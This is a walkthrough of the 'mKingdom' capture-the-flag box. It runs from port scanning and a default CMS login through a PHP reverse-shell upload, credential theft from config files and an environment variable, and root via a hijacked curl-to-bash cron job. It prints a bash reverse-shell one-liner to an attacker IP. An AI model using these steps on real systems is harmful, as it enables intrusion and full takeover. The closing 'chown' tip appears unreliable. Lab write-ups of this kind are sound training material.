


# mKingdom

It is also possible to do port scanning only with nmap, but i started with `rustscan`, which is a tool written in rust, therefor it is much faster than nmap.

```bash
export IP=10.10.144.234

rustscan -a $IP
```
```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/martian/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.144.234:85
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 19:47 +04
Initiating Ping Scan at 19:47
Scanning 10.10.144.234 [2 ports]
Completed Ping Scan at 19:47, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:47
Completed Parallel DNS resolution of 1 host. at 19:47, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 19:47
Scanning 10.10.144.234 [1 port]
Discovered open port 85/tcp on 10.10.144.234
Completed Connect Scan at 19:47, 0.10s elapsed (1 total ports)
Nmap scan report for 10.10.144.234
Host is up, received conn-refused (0.096s latency).
Scanned at 2024-06-15 19:47:57 +04 for 0s

PORT   STATE SERVICE    REASON
85/tcp open  mit-ml-dev syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds

```

## Port 85

After finding the open port(s) now we can pass to nmap.

```bash
nmap -A -vvv -T4 -p85  $IP  -oN scan/nmap
```

```bash
# Nmap 7.94SVN scan initiated Sat Jun 15 19:51:59 2024 as: nmap -A -vvv -T4 -p85 -oN scan/nmap 10.10.144.234
Nmap scan report for 10.10.144.234
Host is up, received conn-refused (0.17s latency).
Scanned at 2024-06-15 19:51:59 +04 for 10s

PORT   STATE SERVICE REASON  VERSION
85/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 15 19:52:09 2024 -- 1 IP address (1 host up) scanned in 10.09 seconds
```

## Web

Visiting the web `http://10.10.144.234:85` gives us nothing. So we can now start fuzzing for other directories. I used `ffuf` for this.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://10.10.144.234:85/FUZZ
```
* Doing so we find `app` directory.


* It takes us to `http://10.10.144.234:85/app/castle/`.

* At the bottom of this web page there is a hint for us.


## Cms

* Some research on internet revealed that the `login` page for `concrte5` web apps are here : `http://10.10.144.234:85/app/castle/index.php/login`



* We can try bruteforcing the login page, but i tried the classic `admin` and `password` and it worked so no need for bruteforce.


## Getting Foothold

**There is a file upload section, so we can upload a php reverse shell and run it**


**But first we need to add `php` to allowed file types.


* We can use this well known php reverseshell by [pentestmonkey.](https://github.com/pentestmonkey/php-reverse-shell)


* We change the ip to our own ip address and port to our desired one inside this reverse shell and upload the file.



* Now we start our  `netcat` listener and click the link given on the CMS.


* We can get a more stable shell with python (pty module).

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mkingdom:/$ export TERM=xterm
export TERM=xterm
www-data@mkingdom:/$ ^Z  # Ctrl + Z --> background the process
zsh: suspended  nc -lnvp 9999
                                                                                                       
 stty raw -echo; fg # foregroung the process
[1]  + continued  nc -lnvp 9999

www-data@mkingdom:/$ 
```

## Privesc to toad

**Looking for webb app's config files i found the password for `toad`.**

```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
app.php  database.php  doctrine  generated_overrides
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
www-data@mkingdom:/var/www/html/app/castle/application/config$ su toad
Password: 
toad@mkingdom:/var/www/html/app/castle/application/config$ cd
toad@mkingdom:~$ ls 
Desktop    Downloads  Pictures  smb.txt    Videos
Documents  Music      Public    Templates
toad@mkingdom:~$ 
```
## Privesc to mario

After trying some scripts like [LinPeas.sh](https://github.com/peass-ng/PEASS-ng/releases/tag/20240609-52b58bf5) i couldn't find a way to esculate my privilages to root.

So I started doing manual enumeration and found a suspicious enviromental variable `PWD_token`.

```bash
toad@mkingdom:~$ env
APACHE_PID_FILE=/var/run/apache2/apache2.pid
XDG_SESSION_ID=c2
SHELL=/bin/bash
APACHE_RUN_USER=www-data
TERM=xterm
OLDPWD=/var/www/html/app/castle/application/config
USER=toad
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
PWD_token=aWthVGVOVEFOdEVTCg==
MAIL=/var/mail/toad
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
APACHE_LOG_DIR=/var/log/apache2
PWD=/home/toad
LANG=en_US.UTF-8
APACHE_RUN_GROUP=www-data
HOME=/home/toad
SHLVL=2
LOGNAME=toad
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1002
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
toad@mkingdom:~$
```

`PWD_token=aWthVGVOVEFOdEVTCg==` this looked like base64 encrypted.

```bash
toad@mkingdom:~$ echo "aWthVGVOVEFOdEVTCg==" | base64 -d
ikaTeNTANtES
```

Trying the output as password we get access to `mario` account.

```bash
toad@mkingdom:~$ su mario
Password: 
mario@mkingdom:/home/toad$ 
```

Trying to read the user flag, but user flag is also owned by the root user. Must be a mistake ??

```bash
mario@mkingdom:~$ cat user.txt
cat: user.txt: Permission denied
mario@mkingdom:~$ ls -la user.txt
-rw-r--r-- 1 root root 38 Nov 27  2023 user.txt
mario@mkingdom:~$ 
```

Again I tried doing manual enumeration, but nothing to be found. 

## Privesc to root

Trying this tool gave a result [pspy](https://github.com/DominicBreuker/pspy) 


So there is this `/bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log` cron job running by the root (UID=0). We can exploit this by creating the same path and the script `(/app/castle/application/counter.sh)` in our own machine,start a web server at port 85 and set the domain `mkingdom.thm` to point to us by changing the `/etc/hosts` file since we have write permission on it.

```bash
mario@mkingdom:~$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```
Put your own ip in front of the domain `mkingdom.thm`


Now we need to create `/app/castle/application/` path in our machine.

Inside the `counter.sh` file we can put a bash reverse shell as follows:

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.83.38/4444 0>&1  
```
Start a python web-server inside the folder that contains the `app` directory.

```bash
python -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
```

Finally start a netcat listener.

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.83.38] from (UNKNOWN) [10.10.24.178] 44416
bash: cannot set terminal process group (2877): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# 
```

## And We get the root shell. 

Even as root we can't read the flags :) 

```bash 
root@mkingdom:~# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied
```

For this just run:
```bash
chown root /bin/cat
```